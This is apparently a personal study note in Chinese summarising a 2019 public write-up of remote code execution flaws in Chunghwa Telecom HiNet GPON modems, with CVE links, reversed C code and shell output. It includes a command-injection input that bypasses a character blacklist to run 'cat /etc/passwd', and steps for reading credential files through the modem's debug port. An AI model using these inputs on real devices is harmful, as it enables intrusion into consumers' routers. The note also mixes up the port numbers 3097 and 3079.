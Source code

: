 ```yaml
---
date: 2025-03-06
publish: true
slug: 337a2cce-23bf-4eb5-b303-2f7853fc2251
tags:
- CS/Security
title: CVE 2019
uuid: 26aba0ab-c76e-4d9d-941d-1a24fa4a4a04
---
```

## [中華電信數據機遠端代碼執行漏洞 | Orange Tsai](https://blog.orange.tw/posts/2019-11-HiNet-GPON-Modem-RCE/)

HiNet GPON 韌體中託管在連接埠 3097 上的服務允許攻擊者隨機命令執行
一系列中華電信數據機的配置異常漏洞，引響約 25 萬台機器
相關的 CVE 漏洞編號:

- [CVE-2019-13411](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-13411)
- [CVE-2019-13412](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-13412)
- [CVE-2019-15064](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15064)
- [CVE-2019-15065](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15065)
- [CVE-2019-15066](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15066)

3097 連接埠提供了許多跟電信網路相關的指令，推測是中華電信給工程師遠端對數據機進行各種網路設定的除錯介面
用 nc 對 3079 port 下 `MISC SCRIPT &lt;path/to/file&gt;` 可以實施隨機檔案讀取
讀取 `/etc/passwd` 取得 root 密碼後用 ssh 登入機器

```sh
$ uname -a
Linux I-040GW.cht.com.tw 2.6.30.9-5VT #1 PREEMPT Wed Jul 31 15:40:34 CST 2019
[luna SDK V1.8.0] rlx GNU/Linux

$ netstat -anp | grep 3097
tcp        0      0 127.0.0.1:3097          0.0.0.0:*               LISTEN

$ ls -lh /usr/bin/omcimain
-rwxr-xr-x    1 root   root        4.6M Aug  1 13:40 /usr/bin/omcimain

$ file /usr/bin/omcimain
ELF 32-bit MSB executable, MIPS, MIPS-I version 1 (SYSV), dynamically linked
```

omcimain 是聽在 3079 port 的程式

```c
char *input = util_trim(s1);
if (input[0] == '\0' || input[0] == '#')
    return 0;
while (SUB_COMMAND_LIST[i] != 0) {
    sub_cmd = SUB_COMMAND_LIST[i++];
    if (strncmp(input, sub_cmd, strlen(sub_cmd)) == 0)
        break;
}
if (SUB_COMMAND_LIST[i] == 0 && strchr(input, '?') == 0)
    return -10;
// ...
char *BLACKLISTS = "|<>(){}`;";
while (BLACKLISTS[i] != 0) {
    if (strchr(input, BLACKLISTS[i]) != 0) {
        util_fdprintf(fd, "invalid char '%c' in command\n", BLACKLISTS[i]);
        return -1;
    }
    i++;
}
snprintf(file_buf,  64, "/tmp/tmpfile.%d.%06ld", getpid(), random() % 1000000);
snprintf(cmd_buf, 1024, "/usr/bin/diag %s > %s 2>/dev/null", input, file_buf);
system(cmd_buf);
```

經由逆向 omcimain 發現如過指令都沒有配對成功會執行上方程式碼

`notexisten? &amp;&amp; cat /etc/passwd` 可以繞過 BLACKLISTS 執行 `cat /etc/passwd`
